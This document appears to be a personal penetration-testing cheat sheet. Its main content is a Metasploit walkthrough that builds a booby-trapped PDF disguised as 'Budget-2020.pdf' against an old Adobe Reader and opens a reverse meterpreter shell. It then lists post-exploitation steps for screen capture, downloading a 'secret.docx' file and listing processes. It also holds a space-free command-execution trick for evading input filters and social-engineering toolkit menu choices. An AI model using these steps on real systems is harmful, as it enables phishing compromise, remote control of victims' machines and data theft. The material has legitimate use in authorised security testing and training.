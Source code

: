  Misc exploit

Command execution without space:

    IFS=_;command='ls_-l';$command

# Exploit Adobe example:

These two combinations work on Windows 10. Make sure to turn off windows defender...
`
exploit/windows/fileformat/adobe_pdf_embedded_exe with Adobe Reader 8.1.1
exploit/windows/fileformat/adobe_libtiff with Adobe Reader 8.1.1
`
Get adobe download from: ftp://ftp.adobe.com/pub/adobe/reader/win/8.x/

Steps:

    use exploit/windows/fileformat/adobe_libtiff 
    set FILENAME Budget-2020.pdf
    set PAYlOAD windows/meterpreter/reverse_tcp
    set LHOST 172.17.0.2
    exploit 
[COPY OVER THE PDF FILE]

    use exploit/multi/handler 
	set PAYlOAD windows/meterpreter/reverse_tcp
    set LHOST 172.17.0.2
    exploit

Capture screen:

    use espia
    screengrab


Download a file:

    download secret.docx

Show processes:

	ps



# Exploit settolkit example
`
3
1
13
2
2
`

# Hashcat


# Windows things

Checked logged in users:

    qwinsta /server:1.1.1.1



# Useful tools

## XSS

https://xsshunter.com/

## SSL/TLS config guide

https://mozilla.github.io/server-side-tls/ssl-config-generator/

# tcpdump

## DHCP

    sudo tcpdump -i any -pvn port 67 and port 68


